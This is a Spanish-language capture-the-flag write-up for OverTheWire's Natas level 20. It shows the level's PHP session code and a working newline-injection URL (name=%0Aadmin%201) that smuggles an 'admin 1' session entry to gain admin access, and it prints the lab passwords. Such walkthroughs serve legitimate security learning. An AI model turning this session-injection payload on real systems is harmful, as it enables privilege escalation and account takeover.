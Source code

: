 ```yaml
---
title: Natas-20
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas20
 pass:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

Voy a mostrar lo parte del código más relevante. Si quieres ver el resto del código solo tienes que autenticarte y hacer clic en el link view sourcecode.

```php

<?php

function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");

session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>
```

Envia por POST el campo name y lo introduce en un fichero llamado mysess_<cookie> en la ruta /var/lib/php5/sessions con la función mywrite()
Y dentro de este fichero contiene el campo name más su valor. El fichero quedaría así, por ejemplo:

```
name test
```

Luego cargará estos datos en $_SESSION y fallará en la condición que hay en print_credentials()

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
```

Para que sea verdadero la condición, tendremos que conseguir guardar en el fichero mysess_<cookie> los siguientes datos

```
admin 1
```

Asi cuando lea desde la función myread, introducirá en $_SESSION estos valores.

Le di muchas vueltas en las cookies, ya que los retos eran sobre cookies.
Provoqué errores en session_save_path (creando una cookie con un nombre muy muy largo) pero nada.
Miré la función strspn para ver si habia alguna manera y nada
Di con la tecla en como se guardaba la info en los ficheros de mysess_<cookie>.

Resulta que interpreta caracteres de control como las tabulaciones, saltos de linea.
Probé inyectarlo en el campo name del html pero nada para que funcione hay que enviar los caracteres de control mediante url encoding en la barra de dirección

```
http://natas20.natas.labs.overthewire.org/index.php?name=%0Aadmin%201
```
%0A = \n
%20 = espacio

Al realizar la petición, cargará en el fichero mysess_<cookie>

```
name test (valor que introdujimos la primera vez de prueba)
admin 1
```

Ya están los datos guardados por la función mywrite(), al actualizar la página, leerá los datos con la función myread() y podremos entrar en print_credentials() sin problemas, mostrando la solución.

```
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

[Volver al archivo](archive)

